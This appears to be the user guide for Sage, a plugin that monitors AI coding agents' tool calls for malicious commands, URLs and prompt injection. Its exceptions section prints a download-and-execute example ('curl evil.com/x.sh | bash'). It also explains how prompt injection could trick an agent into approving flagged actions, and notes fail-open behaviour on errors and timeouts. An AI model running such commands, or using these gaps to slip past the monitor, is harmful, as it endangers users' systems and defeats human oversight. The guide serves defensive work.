


# User Guide

This guide covers installation, usage, configuration, and troubleshooting for all supported platforms.

---

## Getting Started

Sage supports four platforms: Claude Code, Cursor/VS Code, OpenClaw, and OpenCode.

### Prerequisites

- **Node.js >= 18** — required for Claude Code and OpenClaw; not required for Cursor/VS Code

### Claude Code

Install from the Sage marketplace:

```
/plugin marketplace add https://github.com/gendigitalinc/sage.git
/plugin install sage@sage
```

Restart Claude Code. Sage loads automatically on every session.

### Cursor

Install the [Gen Sage](https://marketplace.cursorapi.com/items?itemName=Gen.sage-cursor) extension from the Cursor marketplace, or build from source:

```bash
pnpm install
pnpm -C packages/extension run package:cursor:vsix
```

Install the resulting `sage-cursor.vsix` via `Extensions > Install from VSIX`. Then run `Sage: Enable Protection` from the command palette (`Ctrl+Shift+P`).

### VS Code

Install the [Gen Sage](https://marketplace.visualstudio.com/items?itemName=Gen.sage-vscode) extension from the VS Code marketplace, or build from source:

```bash
pnpm install
pnpm -C packages/extension run package:vscode:vsix
```

Install the resulting `sage-vscode.vsix` via the Extensions panel. Then enable protection from the command palette.

To use Sage's MCP tools in VS Code, start the MCP server via the command palette: `MCP: List Server` → `sage` → `Start server`.

### OpenClaw

Install from npm or build from source:

```bash
# From npm (recommended)
openclaw plugins install @gendigital/sage-openclaw

# From source
pnpm install && pnpm build
cp -r packages/openclaw sage
openclaw plugins install ./sage
```

The build script copies threat definitions and trusted-domains into `resources/` automatically.

> **Note:** OpenClaw's `plugins.code_safety` audit will flag Sage with a `potential-exfiltration` warning. This is a false positive — Sage reads local files (config, cache, YAML threats) and separately sends URLs to a reputation API. No file content is sent over the network.

### OpenCode

Add the plugin to your OpenCode config:

Global config (`~/.config/opencode/opencode.json`):

```json
{
  "plugin": ["@gendigital/sage-opencode"]
}
```

Project config (`.opencode/opencode.json`):

```json
{
  "plugin": ["@gendigital/sage-opencode"]
}
```

Or install from source:

```bash
git clone https://github.com/gendigitalinc/sage
cd sage
pnpm install && pnpm --filter @gendigital/sage-opencode run build
# Then use local path in config: "/absolute/path/to/sage/packages/opencode"
```

### Verify It Works

Once installed, ask your AI agent to run this harmless canary command:

```bash
echo __sage_test_deny_cmd_a75bf229__
```

Sage should block it. The marker string matches rule `DUMMY-CMD-DENY-001` from [`threats/dummy.yaml`](https://github.com/gendigitalinc/sage/blob/main/threats/dummy.yaml) — a set of canary patterns shipped with every connector that cover all decision types (deny / ask / allow) and artifact types (commands, file paths, content, URLs, domains). Use them to sanity-check each detection layer.

---

## How It Works

Sage intercepts tool calls made by AI agents, extracts security-relevant artifacts, and checks them against multiple threat detection layers.

### Detection Layers

1. **URL reputation** — Cloud-based lookup for malware, phishing, and scam URLs. Works without an API key.
2. **Local heuristics** — YAML-based regex patterns matching dangerous commands, suspicious URLs, sensitive file paths, credential exposure, and obfuscation techniques.
3. **Prompt injection detection** — Two-tier defense: heuristic regex rules (~0.001ms) catch common injection patterns, followed by a fine-tuned ML model (~17ms) for subtle attacks. See [Prompt Injection Detection](prompt-injection.md).
4. **Package supply-chain checks** — Registry existence, file reputation, and age analysis for npm/PyPI packages. See [Package Protection](package-protection.md).
5. **Plugin scanning** — Scans other installed plugins for threats at session start. See [Plugin Scanning](plugin-scanning.md).

### Intercepted Tools

| Platform | Hooks / Tools |
|----------|---------------|
| Claude Code | `PreToolUse` on `Bash`, `WebFetch`, `Write`, `Edit`, `Read` |
| Cursor | `beforeShellExecution`, `preToolUse` (Write, Edit, Delete, WebFetch), `beforeMCPExecution`, `beforeReadFile` |
| VS Code (Copilot) | `PreToolUse` on all Copilot agent tools (`run_in_terminal`, `create_file`, `replace_string_in_file`, `insert_edit_into_file`, `multi_replace_string_in_file`, `read_file`, `fetch_webpage`, `apply_patch`). Hooks are installed at `~/.copilot/hooks/hooks.json`, which is also read by Copilot CLI — so protection covers CLI agent sessions too. |
| OpenClaw | `exec`, `web_fetch`, `write`, `edit`, `read`, `apply_patch` |
| OpenCode | `bash`, `webfetch`, `read`, `write`, `edit`, `ls`, `glob`, `grep` |

### Data Flow

```
Tool call received (PreToolUse)
  │
  ├─ Extract artifacts (URLs, commands, file paths, content)
  │
  ├─ Check exceptions → if allow-exception matches → allow; if deny-exception matches → deny
  │
  ├─ Check cache → if cached → use cached verdict
  │
  ├─ Run local heuristics (pattern matching against threat definitions)
  │
  ├─ Query URL reputation (for extracted URLs)
  │
  ├─ Check packages (for install commands / manifest writes)
  │
  ├─ ML prompt injection check (if enabled, skipped if heuristics already caught PI)
  │
  ├─ Decision engine combines all signals → verdict
  │
  ├─ Cache result
  │
  └─ Audit log → return verdict

Tool output received (PostToolUse)
  │
  ├─ Extract output content (Read content, Bash stdout, WebFetch response)
  │
  ├─ Run PI heuristic rules on output content
  │
  ├─ ML prompt injection check (if enabled, skipped if heuristics caught PI)
  │
  └─ Return warning via additionalContext (PostToolUse cannot block)
```

### Verdicts

| Decision | Meaning |
|----------|---------|
| `allow`  | No threats detected — tool call proceeds |
| `ask`    | Suspicious — user presented with approval dialog |
| `deny`   | Confirmed threat — tool call blocked |

When multiple signals fire, merge precedence is: `deny > ask > allow`.

### Fail-Open Design

Sage is designed to never break the agent. Every internal error path returns an `allow` verdict. Extension hooks (Cursor / VS Code) always exit with code `0`; the host uses the JSON response to decide whether to block the tool call. If the URL reputation API is down or times out, Sage falls back to heuristics only.

### Sensitivity Presets

The confidence threshold determines when a detection escalates from `ask` to `deny`:

| Preset | Deny threshold | Ask threshold | Behavior |
|--------|---------------|--------------|----------|
| `paranoid` | 0.70 | 0.30 | Blocks on any suspicion |
| `balanced` | 0.85 | 0.50 | Blocks confirmed threats, warns on suspicious (default) |
| `relaxed` | 0.95 | 0.70 | Only blocks high-confidence threats |

On connectors that route through `guardToolCall` (OpenClaw and OpenCode), `paranoid` mode also promotes all `ask` verdicts to `deny`. This prevents prompt-injection attacks from auto-approving flagged actions in flows where the agent — rather than a fully isolated UI — mediates approval. Claude Code and the Cursor/VS Code extension use native approval dialogs on a separate code path and are unaffected.

---

## Using Sage

### Verify Your Installation

After installing Sage, confirm it's working by asking your AI agent to run this harmless canary command:

```
echo __sage_test_ask_cmd_8f2e6b71__
```

This matches rule `DUMMY-CMD-ASK-001`. Under `balanced` (default) or `relaxed` you'll see your platform's approval flow; under `paranoid`, OpenClaw and OpenCode promote the ask to a deny so you'll see a block instead.

**What you should see:**

- **Claude Code** — a permission dialog appears asking you to approve or deny the command
- **Cursor / VS Code** — a notification or dialog prompts you before the command runs
- **OpenClaw** — a native approval dialog appears inline
- **OpenCode** — a native OpenCode approval dialog appears via `sage_approve`

**Claude Code:**



**Cursor:**



If the command runs without any prompt, check that Sage is installed correctly. On Cursor/VS Code, run **Sage: Show hook health** from the command palette.

### Handling Flagged Actions

When Sage flags an action with an **ask** verdict, you can approve or deny it. The exact options depend on your platform:

| Platform | Approval options |
|----------|-----------------|
| **Claude Code** | Approve or deny via the native permission dialog. Approval is session-only — Sage suggests adding an exception for permanent allowlisting. |
| **Cursor / VS Code** | Approve or deny via the IDE dialog. Approval is session-only. |
| **OpenClaw** | Approve once, **allow always** (auto-creates an exception rule), or deny via native approval dialog. |
| **OpenCode** | Approve or deny via the native approval dialog (surfaced when the agent calls `sage_approve`). Approval is session-only. |

To permanently suppress a pattern on any platform, add an exception rule — see [Exceptions](#exceptions).

### Managing False Positives

#### Add an exception rule

Edit `~/.sage/exceptions.json` (or run **Sage: Open exceptions** in Cursor/VS Code):

```json
{
  "rules": [
    {
      "decision": "allow",
      "match": "executable",
      "pattern": "docker build",
      "reason": "Docker builds are part of my workflow"
    }
  ]
}
```

Exception rules support matching by executable name, domain, file path, plugin key, or regex. See [Exceptions](#exceptions) for the full reference and examples.

#### Report a false positive

Sage includes an MCP server with a built-in false positive reporting tool. If your agent has access to Sage's MCP tools, you can ask it to report a false positive directly:

1. Ask your agent: *"List recent Sage audit entries"* — this calls `sage_list_audit_entries`
2. Identify the entry that was a false positive
3. Ask your agent: *"Report this as a false positive because [reason]"* — this calls `sage_report_false_positive`

The report is sent to Gen Digital so the detection rules can be improved. No source code or file content is included in the report.

> **Note:** The MCP tools are available on all platforms. They are registered automatically in Claude Code, Cursor, and OpenCode. In VS Code, start the MCP server first via `MCP: List Server` → `sage` → `Start server`. In OpenClaw, add the Sage MCP server to your `mcp.servers` config manually — see [OpenClaw](#openclaw) under Platform Guides.

#### Disable a specific rule

If a particular threat rule doesn't apply to your workflow, disable it by ID in `~/.sage/config.json`:

```json
{
  "disabled_threats": ["CLT-CMD-001"]
}
```

Threat IDs are listed in the YAML files under `threats/` in the [source repository](https://github.com/gendigitalinc/sage/tree/main/threats). See [Configuration › disabled_threats](#disabled_threats).

### Adjusting Sensitivity

Set the sensitivity preset in `~/.sage/config.json`:

```json
{
  "sensitivity": "paranoid"
}
```

See [Sensitivity Presets](#sensitivity-presets) for threshold values, and [Configuration › sensitivity](#sensitivity) for details.

### Going Fully Offline

Sage's detection layers can run entirely offline. To disable all cloud services:

```json
{
  "url_check": { "enabled": false },
  "file_check": { "enabled": false },
  "package_check": { "enabled": false },
  "community_iq": false
}
```

Local heuristics (300+ YAML-based threat patterns) handle detection without network access. A lightweight session-start version check still posts basic environment info (Sage version, agent runtime, OS, installation ID — no commands, URLs, or file content); see [Privacy](#privacy) for the full breakdown.

### Disabling Sage Temporarily

| Platform | How to disable |
|----------|---------------|
| **Claude Code** | Uninstall the plugin or run Claude without the plugin |
| **Cursor / VS Code** | Run **Sage: Disable protection until restart** from the command palette |
| **OpenClaw** | `openclaw plugins uninstall sage` |
| **OpenCode** | Remove the plugin path from `opencode.json` |

You can also disable individual detection layers in `~/.sage/config.json` without uninstalling. See [Configuration](#configuration).

### Reporting Issues

- **Bug reports and feature requests:** [GitHub Issues](https://github.com/gendigitalinc/sage/issues)
- **False positive reports:** Add an [exception rule](#exceptions) to suppress it and consider [opening an issue](https://github.com/gendigitalinc/sage/issues) so the detection rules can be improved.

---

## Configuration

Sage reads configuration from `~/.sage/config.json`. All fields are optional — defaults are applied automatically.

### Full Config

```json
{
  "url_check": {
    "timeout_seconds": 5,
    "enabled": true
  },
  "file_check": {
    "timeout_seconds": 5,
    "enabled": true
  },
  "package_check": {
    "enabled": true,
    "timeout_seconds": 5
  },
  "amsi_check": {
    "enabled": true
  },
  "pi_check": {
    "enabled": false,
    "max_content_length": 16384,
    "high_risk_threshold": 0.99,
    "medium_risk_threshold": 0.5
  },
  "heuristics_enabled": true,
  "cache": {
    "enabled": true,
    "ttl_malicious_seconds": 3600,
    "ttl_clean_seconds": 86400,
    "path": "~/.sage/cache.json"
  },
  "exceptions": {
    "path": "~/.sage/exceptions.json"
  },
  "logging": {
    "enabled": true,
    "log_clean": false,
    "path": "~/.sage/audit.jsonl"
  },
  "operational_logging": {
    "enabled": true,
    "level": "info",
    "path": "~/.sage/operational.jsonl"
  },
  "sensitivity": "balanced",
  "disabled_threats": [],
  "community_iq": true
}
```

### Options

#### `url_check`

| Field | Default | Description |
|-------|---------|-------------|
| `enabled` | `true` | Enable URL reputation lookups |
| `timeout_seconds` | `5` | Request timeout |

#### `file_check`

| Field | Default | Description |
|-------|---------|-------------|
| `enabled` | `true` | Enable file reputation checks for packages |
| `timeout_seconds` | `5` | Request timeout |

#### `package_check`

| Field | Default | Description |
|-------|---------|-------------|
| `enabled` | `true` | Enable package supply-chain checks |
| `timeout_seconds` | `5` | Request timeout |

#### `amsi_check`

| Field | Default | Description |
|-------|---------|-------------|
| `enabled` | `true` | Enable AMSI (Antimalware Scan Interface) scanning on Windows and WSL |

When enabled, Sage scans tool inputs (commands, file content, edits) through the Windows AMSI API before execution. This integrates with any installed antimalware provider (Windows Defender, etc.) to detect malicious content. AMSI scanning is automatically skipped on unsupported platforms (macOS, non-WSL Linux). See [AMSI Scanning](amsi-scanning.md) for details.

#### `pi_check`

| Field | Default | Description |
|-------|---------|-------------|
| `enabled` | `false` | Enable ML-based prompt injection (PI) detection. Heuristic prompt-injection rules are gated separately by `heuristics_enabled`. |
| `max_content_length` | `16384` | Maximum content length to scan (characters). |
| `model_path` | unset | Optional absolute path to a model directory (used for air-gapped installs). When unset, Sage manages the model under `~/.sage/models/`. |
| `high_risk_threshold` | `0.99` | Risk score for `deny` verdict (hard block) |
| `medium_risk_threshold` | `0.5` | Risk score for medium-risk warning (allow with warning injected via PostToolUse) |

When `pi_check.enabled` is `true`, Sage runs a machine learning model on WebFetch URLs via content pre-fetching at PreToolUse. Heuristic prompt injection rules continue to run on all tools independently. See [Prompt Injection Detection](prompt-injection.md) for details.

The model is **not bundled** with Sage. The first session after enabling `pi_check.enabled` fetches the model in the background and unpacks it under `~/.sage/models/`. While the download is in flight, PI inference is silently skipped (heuristic PI rules still run); the model is picked up on the next session.

#### `heuristics_enabled`

Boolean, default `true`. Set to `false` to disable all local pattern matching (including prompt injection heuristic rules). This is independent of `pi_check.enabled` — toggling one does not affect the other.

#### `cache`

| Field | Default | Description |
|-------|---------|-------------|
| `enabled` | `true` | Enable verdict caching |
| `ttl_malicious_seconds` | `3600` | Cache TTL for malicious verdicts (1 hour) |
| `ttl_clean_seconds` | `86400` | Cache TTL for clean verdicts (24 hours) |
| `path` | `~/.sage/cache.json` | Cache file location (must remain under `~/.sage`) |

#### `exceptions`

| Field | Default | Description |
|-------|---------|-------------|
| `path` | `~/.sage/exceptions.json` | Exceptions file location (must remain under `~/.sage`) |

Pattern-based allow/deny rules. See [Exceptions](#exceptions) for the full format and match types.

#### `logging`

| Field | Default | Description |
|-------|---------|-------------|
| `enabled` | `true` | Enable JSONL audit logging |
| `log_clean` | `false` | Also log `allow` verdicts |
| `path` | `~/.sage/audit.jsonl` | Log file location (must remain under `~/.sage`) |
| `max_bytes` | `5242880` (5 MiB) | Rotate the active log when it reaches this size. `0` disables rotation. |
| `max_files` | `3` | Number of rotated backups kept (`audit.jsonl.1` … `audit.jsonl.N`). `0` disables rotation. |

Relative `path` values are resolved under `~/.sage`. Paths that escape that directory (or resolve to the `~/.sage` directory itself) are ignored and fall back to defaults.

See [Audit Log](audit-log.md) for the on-disk JSONL schema (entry types, fields, signals, content snapshot, rotation semantics).

#### `operational_logging`

Developer-focused operational diagnostics emitted by hooks, connectors, evaluator, and telemetry paths. Entries are JSON Lines in `~/.sage/operational.jsonl` by default, with one JSON object per line containing `timestamp`, `level`, `runtime`, `component`, `message`, and optional structured `data`.

| Field | Default | Description |
|-------|---------|-------------|
| `enabled` | `true` | Enable operational JSONL logging |
| `level` | `info` | Minimum level to write: `debug`, `info`, `warn`, or `error` |
| `path` | `~/.sage/operational.jsonl` | Log file location (must remain under `~/.sage`) |
| `max_bytes` | `5242880` (5 MiB) | Rotate the active log when it reaches this size. `0` disables rotation. |
| `max_files` | `3` | Number of rotated backups kept (`operational.jsonl.1` … `operational.jsonl.N`). `0` disables rotation. |

Relative `path` values are resolved under `~/.sage`. Paths that escape that directory (or resolve to the `~/.sage` directory itself) are ignored and fall back to defaults.

#### `sensitivity`

One of `"paranoid"`, `"balanced"`, or `"relaxed"`. Default: `"balanced"`. See [Sensitivity Presets](#sensitivity-presets).

In `paranoid` mode, `ask` verdicts are promoted to `deny` on OpenClaw and OpenCode connectors. These connectors rely on the agent to relay approval prompts, making them vulnerable to prompt-injection attacks that could persuade the agent to auto-approve. Claude Code and Cursor are unaffected — they use modal dialogs that require direct user interaction.

In `relaxed` mode, the medium-risk band of [`pi_check`](#pi_check) is suppressed entirely (only high-risk denies fire). Heuristic prompt-injection rules are unaffected under every sensitivity level.

#### `community_iq`

Boolean, default `true`. When enabled, Sage sends anonymous detection telemetry to Gen Digital on deny verdicts. This data is used to improve Sage's detection quality and does not include source code, file contents, or command arguments beyond what is necessary to identify the detection. See [Privacy](#privacy) for details.

Set to `false` to disable:

```json
{
  "community_iq": false
}
```

The timeout for detection telemetry requests can be overridden via the `SAGE_COMMUNITY_IQ_TIMEOUT_SECONDS` environment variable.

#### `disabled_threats`

Array of threat IDs to skip during heuristic matching. Default: `[]`.

Use this to permanently suppress specific rules that don't apply to your workflow. Threat IDs are listed in the YAML files under `threats/` (e.g. `CLT-CMD-001`).

```json
{
  "disabled_threats": ["CLT-CMD-001", "CLT-FILE-003"]
}
```

### Files on Disk

| Path | Purpose |
|------|---------|
| `~/.sage/config.json` | Configuration |
| `~/.sage/cache.json` | Verdict cache |
| `~/.sage/exceptions.json` | Exception rules (pattern-based allow/deny) |
| `~/.sage/audit.jsonl` | Audit log |
| `~/.sage/operational.jsonl` | Operational developer log |
| `~/.sage/installation-id` | Random UUID identifying this installation |
| `~/.sage/pending-approvals.json` | Pending approval state (transient, managed by PreToolUse hook) |
| `~/.sage/consumed-approvals.json` | Consumed approvals for MCP approval flow (10-min TTL entries) |
| `~/.sage/extended-info.json` | Optional additional data merged into telemetry. |

---

## Exceptions

Exceptions are pattern-based allow/deny rules that give you fine-grained control over what Sage flags. They match by executable name, domain, file path prefix, plugin key, or regex — so a single rule can cover many variants.

### Quick Start

Create or edit `~/.sage/exceptions.json`:

```json
{
  "rules": [
    {
      "decision": "allow",
      "match": "executable",
      "pattern": "echo",
      "reason": "Simple echo is always fine"
    }
  ]
}
```

Changes take effect on the next tool call — no restart required.

On Cursor/VS Code, run **Sage: Open exceptions** from the command palette to open the file in the editor (creates an empty scaffold if it doesn't exist).

### Rule Format

Each rule has four fields (plus an auto-generated `id`):

| Field | Required | Description |
|-------|----------|-------------|
| `decision` | yes | `"allow"` or `"deny"` |
| `match` | yes | `"executable"`, `"domain"`, `"path"`, `"plugin"`, or `"regex"` |
| `pattern` | yes | The pattern to match (details below) |
| `reason` | no | Human-readable note for why this rule exists |

IDs are computed automatically on load (first 8 hex chars of SHA-256 of `decision:match:pattern`). You never need to write them — Sage adds them to the file on first load.

### Match Types

#### `executable` — Match commands

Matches the executable name, optionally with positional arguments. Strips `sudo` and `env` wrappers and path prefixes automatically.

| Pattern | Matches | Does NOT match |
|---------|---------|----------------|
| `rm` | `rm -rf foo`, `sudo rm -rf foo`, `/usr/bin/rm foo` | `rmdir foo` |
| `git log` | `git log`, `git log --oneline`, `sudo git log -n 5` | `git push`, `git status` |
| `npm run` | `npm run build`, `npm run test` | `npm install` |
| `docker build` | `docker build .`, `docker build -t myapp .` | `docker run myapp` |

**Compound commands are rejected.** If the command contains `&&`, `||`, `|`, `;`, `` ` ``, `$(`, or other shell composition operators, the `executable` match does not apply. This prevents a rule like `rm` from inadvertently allowing `rm foo && curl evil.com/x.sh | bash`. Use `regex` for compound commands.

**Interleaved flags are not handled.** `git --no-pager log` does NOT match pattern `git log` because `--no-pager` occupies the second token position. Use `regex` for these cases.

#### `domain` — Match URLs by domain

Matches the domain (and optionally port) of a URL. Subdomain-aware and case-insensitive.

| Pattern | Matches | Does NOT match |
|---------|---------|----------------|
| `mycompany.com` | `https://mycompany.com/`, `https://api.mycompany.com/v2` | `https://notmycompany.com/` |
| `localhost` | `http://localhost:3000/api`, `http://localhost:8000/` | `https://notlocalhost.com/` |
| `localhost:8000` | `http://localhost:8000/api` | `http://localhost:3000/` |
| `example.com:443` | `https://example.com/api` | `http://example.com:8080/` |

When the pattern includes `:port`, only that port is matched. Without a port, any port matches.

#### `path` — Match file paths

Auto-detects strategy based on the pattern:

- **No wildcards** — prefix match with path-separator awareness
- **Contains `*` or `**`** — glob matching

| Pattern | Matches | Does NOT match |
|---------|---------|----------------|
| `~/.ssh` | `~/.ssh`, `~/.ssh/authorized_keys` | `~/.sshkeys` |
| `/home/user/project` | `/home/user/project/src/index.ts` | `/home/user/project-old/file.ts` |
| `/project/**/*.ts` | `/project/src/index.ts`, `/project/src/deep/file.ts` | `/project/src/file.js` |
| `/project/*.ts` | `/project/index.ts` | `/project/sub/index.ts` |

#### `plugin` — Match installed plugins

Matches against plugin keys during session-start scanning. Only affects plugin scanning — has no effect on tool-call evaluation.

- **No wildcards** — name-prefix match with `@`-boundary awareness
- **Contains `*`** — glob matching

| Pattern | Matches | Does NOT match |
|---------|---------|----------------|
| `acme-tools` | `acme-tools@acme-marketplace`, `acme-tools@other-marketplace` | `acme-tools-malicious@evil` |
| `*@acme-marketplace` | `foo@acme-marketplace`, `bar@acme-marketplace` | `foo@other` |
| `my-plugin@1.*` | `my-plugin@1.2.0`, `my-plugin@1.0.0` | `my-plugin@2.0.0` |

An `allow` exception skips the scan entirely. A `deny` exception flags the plugin even if the scan would have found nothing.

#### `regex` — Power-user escape hatch

Full regex matched against the raw artifact value. Use for cases that don't fit the other match types.

```json
{
  "decision": "allow",
  "match": "regex",
  "pattern": "\\brm\\s+.*\\.(env|db|sqlite)",
  "reason": "Allow deleting env and db files"
}
```

### Rule Precedence

1. **Deny always wins.** If any deny rule matches any artifact, the tool call is denied immediately — regardless of allow rules.
2. **Deny produces a `deny` verdict**, not `ask`. The user explicitly chose to block something.
3. **Allow exceptions bypass the detection pipeline**, but with match-type-aware semantics:

| Match type | Allow behavior |
|------------|---------------|
| `executable` | Any command artifact match → allow (short-circuit) |
| `path` | Any file path artifact match → allow (short-circuit) |
| `domain` | Only when **all** artifacts are URLs **and all** match |
| `regex` | Only when **all** artifacts match |
| `plugin` | N/A (plugin scanning only) |

The `domain` and `regex` restrictions prevent a trusted-domain exception from suppressing an unrelated command threat in the same tool call (e.g., `curl https://trusted.com/install.sh | bash` has both URL and command artifacts).

### Pipeline Position

```
artifacts → deny exceptions → allow exceptions → cache → heuristics → url check → ...
```

Deny exceptions run first (before everything). Allow exceptions run next.

### Common Recipes

**Trust your company domain:**

```json
{ "decision": "allow", "match": "domain", "pattern": "mycompany.internal" }
```

**Block a tracking domain:**

```json
{ "decision": "deny", "match": "domain", "pattern": "tracking.example.com" }
```

**Allow file operations in your project:**

```json
{ "decision": "allow", "match": "path", "pattern": "/home/user/project" }
```

**Trust a plugin across versions:**

```json
{ "decision": "allow", "match": "plugin", "pattern": "acme-tools", "reason": "Trusted internal plugin" }
```

**Allow deleting env/db files (regex):**

```json
{ "decision": "allow", "match": "regex", "pattern": "\\brm\\s+.*\\.(env|db|sqlite)" }
```

### Limits

- A warning is logged when more than 100 rules are loaded, but all rules are honored.
- Regex patterns are compiled once on load. A 50ms timeout protects against ReDoS.
- The file is re-read on each evaluation.

---

## Platform Guides

### Claude Code

Sage registers three hooks in `hooks/hooks.json`:

- **PreToolUse** — Fires before `Bash`, `WebFetch`, `Write`, `Edit`, and `Read` tool calls. Runs the detection pipeline and returns a verdict.
- **PostToolUse** — Fires after `Bash`, `WebFetch`, `Write`, `Edit`, and `Read` tool calls to scan output for prompt injection.
- **SessionStart** — Fires once per session. Scans installed plugins for threats.

**PreToolUse** and **PostToolUse** are `mcp_tool` hooks served by the long-lived Sage MCP server, **SessionStart** is a Node.js script.

**Hook timeouts:**

| Hook | Timeout |
|------|---------|
| PreToolUse | 8 seconds |
| PostToolUse | 8 seconds |
| SessionStart | 30 seconds |

If a hook times out, Claude Code ignores it and the tool call proceeds.

**MCP tools:** Sage also registers an MCP server (configured in `.claude-plugin/plugin.json`) which exposes:

- `sage_report_false_positive` — report audit log entries as false positives (scoped by conversation id)
- `sage_list_audit_entries` — list recent audit entries for selecting `entry_id`s

**Development mode:** Run Claude Code with a local Sage checkout:

```bash
git clone https://github.com/gendigitalinc/sage ~/sage
cd ~/sage && pnpm install && pnpm build
claude --plugin-dir ~/sage
```

**Security Awareness Skill:** Sage includes a security awareness skill at `skills/security-awareness/SKILL.md`, auto-discovered by Claude Code via the `skills` field in `.claude-plugin/plugin.json`.

### Cursor / VS Code

The extension installs managed hooks into the Cursor/VS Code agent system. When a tool call is intercepted, the hook spawns `sage-hook.cjs` as a subprocess, which runs the same detection pipeline as the Claude Code connector.

Sage auto-enables protection on every startup. Open the command palette (`Ctrl+Shift+P`) to use:

| Command | Description |
|---------|-------------|
| `Sage: Enable Protection` | Install managed hooks (auto-enables MCP server in Cursor) |
| `Sage: Disable protection until restart` | Remove managed hooks until next restart (auto-disables MCP server in Cursor) |
| `Sage: Open Config` | Open `~/.sage/config.json` |
| `Sage: Open Audit Log` | Open the audit log file |
| `Sage: Show Hook Health` | Display hook status |

**Hook scope:**

- **Cursor** — `~/.cursor/hooks.json`
- **VS Code (Copilot)** — `~/.copilot/hooks/hooks.json` — this path is shared with **Copilot CLI**, so protection extends to CLI agent sessions on the same machine automatically.

**MCP server:**

- **Cursor**: Sage enables/disables the `sage` MCP server automatically based on protection state.
- **VS Code**: start the `sage` MCP server manually via `MCP: List Server` → `sage` → `Start server`.

### OpenClaw

The OpenClaw connector runs in-process using the OpenClaw plugin API:

- **`before_tool_call`** — Intercepts `exec`, `web_fetch`, `write`, `edit`, `read`, and `apply_patch`. Runs the full detection pipeline.
- **`gateway_start` / `session_start`** — Scans installed plugins for threats.

**Tool mapping:**

| OpenClaw Tool | Maps To |
|---------------|---------|
| `exec` | Bash command extraction |
| `web_fetch` | URL extraction |
| `write` | File path + content extraction |
| `edit` | File path + content extraction |
| `read` | File path extraction |
| `apply_patch` | File path extraction from diffs |

**Approval flow:** When Sage flags a tool call with an `ask` verdict, it returns a `requireApproval` object. OpenClaw presents a native approval dialog (Telegram buttons, Discord components, or `/approve` command depending on the channel). The user can allow once, **allow always** (auto-saves an exception rule to `~/.sage/exceptions.json`), or deny.

**Code safety warning:** OpenClaw's `plugins.code_safety` audit will flag Sage with a `potential-exfiltration` warning. This is a false positive — `readFile` and `fetch` coexist in the same bundle because Sage reads local config/cache files and separately sends URLs to a reputation API. No file content is transmitted.

**MCP server:** OpenClaw's native plugin API does not support programmatic MCP server registration, so the Sage MCP tools (`sage_report_false_positive`, `sage_list_audit_entries`) require a one-time manual step. Add the following to your OpenClaw config:

```json
{
  "mcp": {
    "servers": {
      "sage": {
        "command": "node",
        "args": ["<path-to-sage-openclaw>/dist/mcp-server.cjs"]
      }
    }
  }
}
```

Replace `<path-to-sage-openclaw>` with the absolute path to the installed `@gendigital/sage-openclaw` package (typically inside your OpenClaw installation's `node_modules/@gendigital/sage-openclaw`). Once registered, the agent will have access to both tools automatically.

### OpenCode

Sage uses OpenCode plugin hooks:

- `tool.execute.before` — extracts artifacts and runs the Sage evaluator
- `tool` — registers Sage tools (`sage_approve`)
- `config` — auto-registers the Sage MCP server so `sage_report_false_positive` and `sage_list_audit_entries` are available without any user configuration

For `ask` verdicts, Sage blocks the tool call and returns an action ID. The agent calls `sage_approve`, which shows a native approval dialog to the user.

**Tool mapping:**

| OpenCode tool | Sage extraction |
|---------------|-----------------|
| `bash` | command + URL extraction |
| `webfetch` | URL extraction |
| `read` | file path |
| `write` | file path + content |
| `edit` | file path + edited content |
| `ls` | file path |
| `glob` | pattern as file_path artifact |
| `grep` | pattern as content artifact |

Unmapped tools pass through unchanged.

**Security note:** OpenCode relays `ask` verdicts through the agent conversation, which is susceptible to prompt-injection attacks that could trick the agent into approving without user consent. Set `"sensitivity": "paranoid"` to promote all `ask` verdicts to `deny` on OpenCode. See [sensitivity](#sensitivity).

---

## Privacy

### What Data Is Sent

Sage uses Gen Digital cloud services for four purposes:

1. **URL reputation** — URLs extracted from tool calls are sent to a reputation API for malware/phishing/scam classification.
2. **File reputation** — Package hashes (SHA-256) from npm/PyPI registries are checked against a file reputation service.
3. **Version check** — On session start, Sage sends a POST request to a version-check endpoint with:
   - Sage version
   - Agent runtime (e.g. `claude-code`, `cursor`, `openclaw`, `opencode`, `vscode`)
   - Agent runtime version (when available). For Cursor and VS Code, Sage reads the host's `product.json` and reports the actual application version rather than the underlying VS Code engine version.
   - OS, OS version, and architecture
   - Installation ID — a random UUID persisted at `~/.sage/installation-id`, generated once and reused across sessions
4. **Detection telemetry (Community IQ)** — When Sage issues a **deny** verdict, anonymous detection metadata is sent to improve detection quality. This includes:
   - The same envelope as version check (Sage version, agent runtime, OS, architecture, installation ID)
